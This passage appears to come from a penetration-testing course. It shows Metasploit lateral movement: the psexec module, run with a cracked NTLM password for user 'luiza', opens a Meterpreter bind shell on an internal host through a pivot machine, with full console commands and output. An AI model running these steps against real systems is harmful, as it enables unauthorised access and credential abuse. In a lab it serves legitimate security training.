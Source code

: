 > Listing 77 - Portscanning an internal IP address

Listing 77 shows that 172.161.5.200 has ports 445 and 3389 open. Let's use two modules for SMB and RDP using our pivot host ITWK01 to perform operations on the target.

First, we'll attempt to use the [*psexec*](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/windows/smb/psexec.md) module to get access on the second target as user *luiza*. In the previous section, we retrieved the NTLM hash via Kiwi. Let's assume we could successfully crack the NTLM hash and the clear-text password is *BoccieDearAeroMeow1!*. For *psexec* to succeed, *luiza* has to be a local administrator on the second machine. For this example, let's also assume that we confirmed this through information gathering techniques.

Let's use *exploit/windows/smb/psexec* and set **SMBUser** to **luiza**, **SMBPass** to **BoccieDearAeroMeow1!**, and **RHOSTS** to **172.16.5.200**.

It's important to note that the added route will only work with established connections. Because of this, the new shell on the target must be a bind shell such as *windows/x64/meterpreter/bind\_tcp*, thus allowing us to use the set route to connect to it. A reverse shell payload would not be able to find its way back to our attacking system in most situations because the target does not have a route defined for our network.

```
msf6 auxiliary(scanner/portscan/tcp) > use exploit/windows/smb/psexec 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/smb/psexec) > set SMBUser luiza
SMBUser => luiza

msf6 exploit(windows/smb/psexec) > set SMBPass "BoccieDearAeroMeow1!"
SMBPass => BoccieDearAeroMeow1!

msf6 exploit(windows/smb/psexec) > set RHOSTS 172.16.5.200
RHOSTS => 172.16.5.200

msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp

msf6 exploit(windows/smb/psexec) > set LPORT 8000
LPORT => 8000
```

> Listing 78 - Setting options for the psexec exploit module

Now that all options are set, we can launch the module.

```
msf6 exploit(windows/smb/psexec) > run

[*] 172.16.5.200:445 - Connecting to the server...
[*] 172.16.5.200:445 - Authenticating to 172.16.5.200:445|ITWK02 as user 'luiza'...
[*] 172.16.5.200:445 - Selecting PowerShell target
[*] 172.16.5.200:445 - Executing the payload...
[+] 172.16.5.200:445 - Service start timed out, OK if running a command or non-service executable...
[*] Started bind TCP handler against 172.16.5.200:8000
[*] Sending stage (200774 bytes) to 172.16.5.200
[*] Meterpreter session 13 opened (172.16.5.199:51785 -> 172.16.5.200:8000 via session 12) at 2022-08-05 07:06:43 -0400

meterpreter >
```
